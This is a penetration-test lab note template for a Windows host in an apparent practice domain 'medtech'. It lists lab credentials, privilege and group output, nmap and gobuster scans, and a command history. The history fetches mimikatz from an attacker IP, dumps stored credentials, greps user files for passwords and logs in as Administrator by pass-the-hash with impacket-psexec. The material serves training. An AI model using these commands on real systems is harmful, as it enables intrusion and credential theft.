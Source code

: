 # 172.16.X.82
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`

- C:\Users\Administrator\Desktop\proof.txt
# Accounts
### yoshi / Mushroom!
`xfreerdp3 /u:yoshi /p:Mushroom! /v:172.16.152.82`   
`whoami /priv`
```
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```
`whoami /groups`
```
Group Name                                 Type             SID          Attributes                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288 
```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.141.97 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
`sudo nmap -A -T4 -p- 172.16.213.10`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```

```

# Command History
```c
    wget http://192.168.45.219/mimikatz.exe -OutFile mimikatz.exe
    // ran mimkatz with standard logonopasswords
    cmdkey /list
    vaultcmd /listcreds:"Web Credentials" /all
    Get-ChildItem -Recurse -Include *.txt,*.xml,*.ini,*.bat,*.ps1 -Path C:\Users\ | Select-String -Pattern "password", "pass", "pwd"
    // C:\Users\Administrator.MEDTECH\Searches\hole.txt
    //leon / rabbit!
    // log in as system
    sudo impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:c33b5cf9fa1b1bb4894d4a6cd7c54034 medtech/Administrator@172.16.152.82
```
